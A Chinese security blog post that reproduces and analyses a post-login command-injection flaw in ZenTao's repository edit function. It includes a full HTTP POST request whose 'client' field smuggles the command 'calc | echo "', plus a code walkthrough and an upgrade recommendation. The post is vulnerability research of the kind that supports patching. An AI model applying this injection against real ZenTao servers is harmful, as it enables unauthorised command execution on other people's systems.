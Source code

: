 #  禅道后台命令执行漏洞   
标准云  蚁景网络安全   2025-02-13 09:30  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5znJiaZxqldyq3SBEPw0n6hCXNk6PmR3gyPFJDUCibH91GiaAHHKiaCpcsfnQJ2oImQunzubgDtpxzxNHONU88CypA/640?wx_fmt=gif&from=appmsg "")  
## 漏洞简介  
  
禅道是第一款国产的开源项目管理软件。它集产品管理、项目管理、质量管理、文档管理、 组织管理和事务管理于一体，是一款专业的研发项目管理软件，完整地覆盖了项目管理的核心流程。禅道管理思想注重实效，功能完备丰富，操作简洁高效，界面美观大方，搜索功能强大，统计报表丰富多样，软件架构合理，扩展灵活，有完善的 API 可以调用。  
  
禅道后台存在 RCE 漏洞，均存在于历史版本，对这些漏洞进行复现分析。  
## 环境搭建  
  
利用 phpstudy 来进行环境的搭建  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49rVZqs0HKFHVxlhZUb4x8HS5Rk7lkaWFZVHFg0EhMjXwQ3RyOGEhgwA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
## 漏洞复现  
  
登录后台创建 GitLab 类型的代码库  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49vW6ibQClfpvKfzNniav9ibHm8fUGyXfZvlrymWkupS2qJbLoL87KdbPkA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49vUxaia0OXiaueXoFib6Fn6wiac5gELsROY2ThR6tHZpv3JZUEVV5ok2HKQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
点击 DevOps 模块的设置选项，修改创建的代码库  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49HYibmWCM9ffzd0iaSaySImApjjpicYRxdn0jn3LjhKEpMaNRqJtUQYHUg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49VwLE5EEZFyZbMldvEMI66eXjTicibjSOrAbdWKOXR25G0PaOLrVcjnDQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
点击保存并抓取数据包  
  
修改参数 SCM 和 client SCM 修改为 Subversion client 修改为 calc | echo "  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49g53ia9a7wmKWRbH7gzY380Vbjn1iacpqJcx79R04ibhaV78Q2tRxKGk0A/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
触发了命令执行，执行了两次  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49pBqrmjnCGF7cFPB51yZsOjDvCweRMX1CyxY6a5AyutJiagmufo4DDicg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
####   
## 漏洞分析  
  
发现有一些分析文章中描述需要先创建一个代码仓库，也指出了创建代码仓库的原因，因为调用的是 edit 方法，所以要先 create  
  
经过调试发现这是必须的，因为在没创建代码库时，执行 edit 方法，会提示跳转去创建代码库  
  
module/repo/control.php#commonAction  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49J8wNDBLpOoytSGQbBLHIPQW2OshsV1SG8ickhxzwSW9n9CdtK8WBJbg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
所以需要先创建代码库  
  
module/repo/control.php#create  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49l2hf1O8j3dT8cwj5FDwQPLfl3fWHWt3bB3fPLFHvQLgKAibFDlUCGNA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
module/repo/model.php#create  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl490iaR3907Dhx7bZzfcCibxtvibF1sV93HqlvjzEJiaXficOgdFhyvNAqRcEg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
在创建代码库的时候有一个检查 Client 的操作 只有选择 Gitlab 才能不做客户端的检测操作，直接创建成功  
  
module/repo/model.php#checkClient  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl495HbFvGyhOpye4icNdOMjNXTngwlibmC25q378yQmfMdfgjDcWHiaqNnkQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
创建成功后执行编辑操作触发漏洞  
```
POST /index.php?m=repo&f=edit&repoID=0 HTTP/1.1
Host: test.test
Content-Length: 36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://test.test
Referer: http://test.test/index.php?m=repo&f=edit&repoID=1&objectID=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zentaosid=bp9k0pcftu49b2ethm9f32hc5b; lang=zh-cn; device=desktop; theme=default; preExecutionID=1; moduleBrowseParam=0; productBrowseParam=0; executionTaskOrder=status%2Cid_desc; windowWidth=1440; windowHeight=722; tab=devops; repoBranch=master;XDEBUG_SESSION=PHPSTORM
Connection: close

SCM=Subversion&client= calc | echo "
```  
  
module/repo/control.php#edit  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49HibPiaL7kKIz99icMHFIen4Ak3rbRptEAKWf6D9aVnlmMbnib6uE77BPjA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
module/repo/model.php#update  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl497mbMYgQW60cqbm9iaT1xuoib83yIDtuLpyZjD5R1hl6fwicnebmOZFIlA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
module/repo/model.php#checkConnection  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49icLjg3tOzksE1Qs8N8VMkicwPkicp0v7TZhg5s9fvZhUib9QmP5kAItSBw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9LcO9UBTAkofdLmG2w75Cl49kribNtby0nwlia48qQld3jh36LyahKwfZygmRAKPQCye3OKkCccLSBJw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
## 修复建议  
  
更新至最新版本  
  
[](https://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&scene=21#wechat_redirect)  
  
